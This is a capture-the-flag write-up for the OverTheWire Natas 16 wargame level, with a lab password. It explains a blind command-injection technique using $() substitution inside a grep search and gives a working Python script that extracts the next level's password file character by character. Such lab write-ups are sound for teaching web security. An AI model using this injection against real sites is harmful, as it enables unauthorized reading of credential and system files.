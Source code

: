 > Password for natas16: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

### Natas16

natas10 was no challenge at all, as our natas9 solution was still perfectly
viable. natas16 on the other hand, returns to grep-exploitation, and this time
the characters ``;|&\`\'"`` are all going to be checked for with `preg_match` -
killing our previous solution.

Luckily for us though, the characters `$` and `()` are still permitted, which
allows us to execute a command in a subshell during the grep call (this is
a feature of bash, see [here][GNULINK].

So we are free to make one command, however we will be unable to see the output
from it, so calls to `cat` are useless. Instead the output will be used within
a grep command. We can manipulate this into a similar format as natas15:

1. We use a grep command to read /etc/natas_webpass/natas17, and supply a
string as a guess - specifying that the string is at the beginning of the
password.
	1. If the string is present, **our** grep will return the
password, which will then be used to search "dictionary.txt" with a **second**
grep - this second grep will return **NO RESULTS**, as our password is
clearly not present in the dictionary file.
	2. If the string is NOT present, **our** grep returns an empty string,
and therefore the **second** grep will return **everything** in the dictionary.
2. We check the output - if present, our guess as to the start of the string
is incorrect. If not present, then our guess so far is correct.

We will use the `grep` command with `^` preceding our string, this specifies
that the string must be at the **START** of the searched text. This is what
allows us to guess character by character from the beginning to the end of
the string.

In python:

```
import re
import requests as req
from requests.auth import HTTPBasicAuth

chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
LOGIN = 'http://natas16.natas.labs.overthewire.org'
password = ''

def check_if_in_pass(string):
    needle = '$(grep ^' + string + ' /etc/natas_webpass/natas17)'
    payload = {'needle':needle} 
    r = req.post(LOGIN, auth=HTTPBasicAuth('natas16',
        'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh'), data=payload)
    if not (re.search('African',r.content)):
        return True
    return False

i = 0
for i in range(0, 32):
    for char in chars:
        if (check_if_in_pass(password + char)):
            password += char
            print (password)
            break
    i += 1
```


[OTW]: https://overthewire.org
[GNULINK]: http://www.gnu.org/savannah-checkouts/gnu/bash/manual/bash.html#Command-Substitution)